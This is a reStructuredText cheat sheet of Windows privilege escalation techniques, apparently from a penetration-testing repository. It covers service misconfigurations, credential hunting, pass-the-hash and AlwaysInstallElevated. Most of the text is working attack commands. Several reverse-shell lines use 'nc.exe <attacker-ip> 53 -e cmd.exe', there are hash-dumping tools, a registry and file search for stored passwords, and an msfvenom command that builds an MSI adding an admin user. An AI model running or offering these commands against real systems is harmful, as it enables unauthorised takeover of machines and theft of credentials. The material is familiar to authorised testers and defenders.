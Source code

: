 #####################################
Windows Privilege Escalation Examples
#####################################

Weak Service Permissions
========================

Writable Service Executables
----------------------------

If a services is found which runs as SYSTEM or Administrator level users, and it has weak file permissions, we may be able to replace the service binary, restart the service, and escalate privileges.

Use wmic to extract a list of service executables:

.. code-block:: none

    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt

If wmic is not available:

.. code-block:: none

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

Then use either accesschk.exe, cacls, or icacls to list the access permissions associated with each service executable:

.. code-block:: none

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c accesschk.exe /accepteula -qv "%a" >> accesschk.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c cacls "%a" >> cacls.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c icacls "%a" >> icacls.txt

With accesschk results, look for the following permissions:

.. csv-table::
    :header: "Permission", "Use Case"

    "SERVICE_ALL_ACCESS", "Can do anything."
    "SERVICE_CHANGE_CONFIG", "Can reconfigure the service binary."
    "WRITE DAC", "Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG."
    "WRITE_OWNER", "Can become owner, reconfigure permissions."
    "GENERIC_WRITE", "Inherits SERVICE_CHANGE_CONFIG"
    "GENERIC_ALL", "Inherits SERVICE_CHANGE_CONFIG"

With cacls and icacls, look for (F)ull Access, (M)odify access, (W)rite-only access, (WDAC) write DAC, or (WO) write owner.

Writable Service Objects
------------------------

Use accesschk.exe to find writable service objects:

.. code-block:: none

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

Query a vulnerable service:

.. code-block:: none

    sc qc <service>

Update the service binary path:

.. code-block:: none

    sc config <service> binpath= "<command>"

Update the name of the account which a service runs as:

.. code-block:: none

    sc config upnphost obj= ".\LocalSystem" password= ""

Stop / Start a service:

.. code-block:: none

    wmic service <service> call stopservice
    wmic service <service> call startservice

    net stop <service>
    net start <service>

    sc stop <service>
    sc start <service>

If the service fails to start because of a dependency, you can start the dependency manually, or remove the dependency:

.. code-block:: none

    sc config <service> depend= ""

All-in-one comnand:

.. code-block:: none

    sc config <service> binPath= "<command>" depend= "" start= demand obj= ".\LocalSystem" password= ""

Unquoted Service Paths
----------------------

Find unquoted service paths:

.. code-block:: none

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

If the unquoted service path is :code:`C:\Program Files\path to\service.exe`, you can place a binary in any of the following paths:

.. code-block:: none

    C:\Program.exe
    C:\Program Files.exe
    C:\Program Files\path.exe
    C:\Program Files\path to.exe
    C:\Program Files\path to\service.exe

Cleartext Passwords
===================

Find passwords in arbitrary files:

.. code-block:: none

    findstr /si password *.txt *.xml *.ini

Find strings in filenames:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Find passwords in all files:

.. code-block:: none

    findstr /spin "password" *.*

Common files which contain passwords:

.. code-block:: none

    type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Search for passwords in the registry:

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

Passing the Hash
================

The following commands can be used to dump password hashes:

.. code-block:: none

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Remote
------

Pass the hash remotely to gain a shell:

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd

Alternative:

.. code-block:: none

    export SMBHASH=<hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd

Local
-----

Pass the hash locally using runas:

.. code-block:: none

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Pass the hash locally using PowerShell:

.. code-block:: none

    secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

Pass the hash locally using psexec:

.. code-block:: none

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Loopback Services
=================

Search for services listening on the loopback interface:

.. code-block:: none

    netstat -ano | findstr "LISTEN"

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

.. code-block:: none

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>

AlwaysInstallElevated
=====================

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Both the following registry values must be set to "1" for this to work:

.. code-block:: none

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Create a malicious MSI:

.. code-block:: none

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi

Use msiexec to run the malicious MSI:

.. code-block:: none

    msiexec /quiet /qn /i C:\evil.msi

Stored Credentials
==================

If there are stored credentials, we can run commands as that user:

.. code-block:: none

    $ cmdkey /list

    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator

Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:

.. code-block:: none

    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"
